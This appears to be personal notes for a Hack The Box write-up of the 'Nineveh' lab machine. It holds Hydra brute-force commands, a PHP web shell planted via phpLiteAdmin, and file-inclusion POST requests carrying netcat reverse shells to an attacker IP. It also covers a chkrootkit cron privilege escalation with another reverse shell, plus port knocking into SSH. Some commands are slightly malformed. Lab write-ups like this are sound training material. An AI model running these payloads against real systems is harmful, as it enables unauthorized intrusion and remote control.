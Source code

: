 **Enumeration** 
```shell
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.43 -o http-output.txt

Ignore SSL error:
root@kali:~/HTB/Nineveh# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.43 -o https-output.txt -k
Find:
http://10.10.10.43/department/login.php
https://10.10.10.43/db/
https://10.10.10.43/secure_notes/
```
**Hydra:**
```shell
root@kali:~/HTB/Nineveh# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64
```
**For Department page:
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found**
```shell
root@kali:~/HTB/Nineveh# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 64
```
**For PHP Lite Admin page:
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123**

**Show details by -x:
root@kali:~/HTB/Nineveh# searchsploit -x 24044.txt**

Then make reverse shells(shells.txt):

Create database "ninevehNotes.php" Field=1

Rename table:test --> Table 'ninevehNotes' 
```shell
Field input:
<?php echo system($_REQUEST["ipp"]; ?>
```
#### MOVE to Burp and change to POST:
--------------------------------------------------------------------
```shell
POST /department/manage.php?notes=/var/tmp/ninevehNotes.php HTTP/1.1
Host: 10.10.10.43
...
ipp=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.11+1668+>/tmp/f
```
--------------------------------------------------------------------
#### REMEMBER Encode special character like " " ---> "+" and ";"--->"%3b" "&"--->"%26"
```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 1668 >/tmp/f
Applied to web shell:
ipp=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.11+1668+>/tmp/f
```
--------------------------------------------------------------------
**As python setting problem:**
```shell
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
**CRON job on report, show history**
```shell
www-data@nineveh:/report$ ps -eo command
```
**LOOP history action:**
```shell
www-data@nineveh:/report$ for i in $(ps -eo command)ls ; do echo $i; done
To confirm IFS is "space" as new line:
www-data@nineveh:/report$ IFS=$'\n'
```
***write a script: procmon.sh***
```shell
--------------------------------------------------------------------
#!/bin/bash

# Loop by line
IFS=$'\n'

old_process=$(ps -eo command)

while true; do
	new_process=$(ps -eo command)
	diff <(echo "$old_process") <(echo "$new_process")
	sleep 1
	old_process=$new_process
done
--------------------------------------------------------------------
```
```shell
www-data@nineveh:/var/tmp$ ./procmon.sh

172a173
> sleep 1
172a173,177
> /usr/sbin/CRON -f
> /bin/sh -c /root/vulnScan.sh
> /bin/bash /root/vulnScan.sh
> /bin/sh /usr/bin/chkrootkit
...
< ps -eo command
...
```
#### "< /bin/sh /usr/bin/chkrootkit" finds exploit-db 33899
#### Then create a update file placed /tmp as /tmp/update
#### "/3"--> as Third terminal!
```shell
--------------------------------------------------------------------
#!/bin/bash
rm /tmp/3;mkfifo /tmp/3;cat /tmp/3|/bin/sh -i 2>&1|nc 10.10.14.11 4444 >/tmp/3
--------------------------------------------------------------------
```
#### ~Other way~
https://10.10.10.43/secure_notes/
Show hidden content: 
root@kali:~/HTB/Nineveh# binwalk -Me nineveh.png 
...
As a result:
```shell
Public key:
root@kali:~/HTB/Nineveh/_nineveh.png.extracted/secret# cat nineveh.pub 
Private Key:
root@kali:~/HTB/Nineveh/_nineveh.png.extracted/secret# cat nineveh.priv 
-----BEGIN RSA PRIVATE KEY-----
...
```
****root@kali:~/HTB/Nineveh/_nineveh.png.extracted/secret# chmod 600 nineveh.priv 
BUT No SSH^-^****
```shell
www-data@nineveh:/etc/init.d$ netstat -alnp | grep LIST
netstat -alnp | grep LIST
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
```
#### This is port knocking services~~
www-data@nineveh:/etc/init.d$ cat /etc/knockd.conf
....
[openSSH]
 sequence = 571, 290, 911 
....
Below all wrong:
for i in 571 290 911; do nmap -Pn -p $i --host_timeout 201 --max-retries 0 10.10.10.43; done
for x in 571 290 911; do nmap -Pn --host_timeout 201 --max-retries 0 -p $x 10.10.10.43; done
#### Real:
```shell
root@kali:~/HTB/Nineveh# for i in 571 290 911; do nmap -Pn -p $i --max-retries 0 10.10.10.43; done
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-01 00:20 HKT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
Host is up.

PORT    STATE    SERVICE
571/tcp filtered umeter

Nmap done: 1 IP address (1 host up) scanned in 1.35 seconds
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-01 00:20 HKT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
Host is up.

PORT    STATE    SERVICE
290/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 1.15 seconds
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-01 00:20 HKT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
Host is up.

PORT    STATE    SERVICE
911/tcp filtered xact-backup

Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds
Then:
root@kali:~/HTB/Nineveh# nmap -p 22 10.10.10.43
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-01 00:20 HKT
Nmap scan report for 10.10.10.43
Host is up (0.22s latency).

PORT   STATE SERVICE
22/tcp open  ssh
```
#### Finally readly to connect:
****root@kali:~/HTB/Nineveh/_nineveh.png.extracted/secret# ssh -i nineveh.priv amrois@10.10.10.43****
